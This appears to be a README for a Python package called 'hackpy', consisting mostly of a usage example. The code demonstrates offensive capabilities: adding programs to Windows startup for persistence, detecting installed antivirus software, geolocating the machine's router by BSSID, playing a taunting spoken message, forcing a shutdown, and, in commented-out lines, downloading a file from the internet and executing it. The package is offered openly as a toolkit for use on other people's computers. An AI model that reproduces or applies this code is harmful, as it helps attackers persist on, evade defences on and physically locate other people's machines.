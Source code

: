 ![Python](https://www.python.org/static/img/python-logo@2x.png)
# `pip install hackpy`
![](https://picua.org/images/2019/07/02/a565a62aa7c27eb1339c6cb0be7c9d49.png)

# Example usage:
``` python
import os
import hackpy

hackpy.clean() # Remove all hackpy temp files from system
hackpy.load(architecture=64) # default it 32

# Autorun
hackpy.autorun('C:\\Windows\\System32\\cmd.exe', 'test_name', state=True) # Add cmd.exe to startup
hackpy.autorun('C:\\Windows\\System32\\cmd.exe', 'test_name', state=False) # Remove cmd.exe from startup

# Detect installed antivirus software on computer:
data = hackpy.detect_protection()
for antivirus in data:
    print('[!] - Antivirus detected: ' + antivirus + ', install path: ' + data[antivirus])

# Information about you IP:
data = hackpy.ip_info()
print('[?] - You IP is: ' + data['query'])
print('[?] - You live in: ' + data['country'] + ', country code: ' + data['countryCode'])
# Return dict: {"query", "status", "country", "countryCode", "region", "regionName", "city", "zip", "lat", "lon", "timezone", "isp", "org", "as", "local"}

# Information about other IP:
data = hackpy.ip_info('216.58.215.110')
print('[?] - Other Information about IP:\n' + str(data))
# Return dict: {"query", "status", "country", "countryCode", "region", "regionName", "city", "zip", "lat", "lon", "timezone", "isp", "org", "as"}

# Get router bssid:
bssid_string = hackpy.router()
# Find LATITUDE and LONGITUDE with router BSSID:
data = hackpy.bssid_locate(bssid_string)
print('LATITUDE: ' + str(data['lat']) + ', LONGITUDE: ' + str(data['lon']) + ', RANGE: ' + str(data['range']))

# Nircmdc reference: https://nircmd.nirsoft.net
hackpy.nircmdc('monitor off')
hackpy.nircmdc('speak text \"HAHAHAHAHHAH IM FIND YOU!\"')
# System commands
hackpy.system('shutdown -s -t 0')

# Load and execute file from internet
# file = hackpy.wget(direct.link.here)
# os.startfile(file)
```

<br> *nircmdc reference: https://nircmd.nirsoft.net* <br>

![SITE](https://i.ibb.co/znRLN0D/image.png)
